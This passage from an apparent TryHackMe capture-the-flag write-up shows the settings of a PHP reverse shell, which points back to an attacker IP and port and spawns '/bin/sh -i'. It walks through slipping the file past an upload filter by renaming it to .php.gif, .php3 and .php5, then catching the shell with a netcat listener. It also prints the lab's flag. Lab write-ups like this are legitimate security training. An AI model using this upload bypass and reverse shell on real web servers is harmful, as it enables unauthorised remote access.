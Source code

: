 Let's change them to suit what we need:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.2.19.105'
$port = '4444';       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

After saving the file, I tried to upload the file and got this error:

![error](https://i.imgur.com/nWpqcTq.png)

Shoot, looks like we have to hide it somehow. One workaround is using a second extension, so I'll rename the file to ``shell.php.gif``.

![yeet](https://i.imgur.com/qA92nYB.png)

It worked! Now I'll navigate to the uploads directory.

![file](https://i.imgur.com/YbnjCni.png)

Looks like my file is there! I'll start a listener before opening the reverse shell using netcat.

```
kali@kali:~/Desktop/thm/rootme$ nc -nlvp 4444
listening on [any] 4444 ...
```

And now I'll open the file... although nothing happens. Looks like I'll have to use something more advanced. 

When looking through cheatsheets, I noticed that a common solution was to rename the ``.php`` extension to something else, like ``php3`` or ``phtml``. I'll try it with ``php3``.

It didn't work and I spent a couple minutes looking for alternatives or more complex solutions, although I found a writeup where someone used ``php5`` as the shell extension during another CTF. I tried my original file with the ``php5`` extension and it worked! I was able to get a reverse shell. After looking around for a while trying to find the flag, I ended up finding it in the ``/var/www/`` directory. 

```
$ cd /var/www/
$ ls
html
user.txt
$ cat user.txt
THM{y0u_g0t_a_sh3ll}
```

## Upgrading Shell
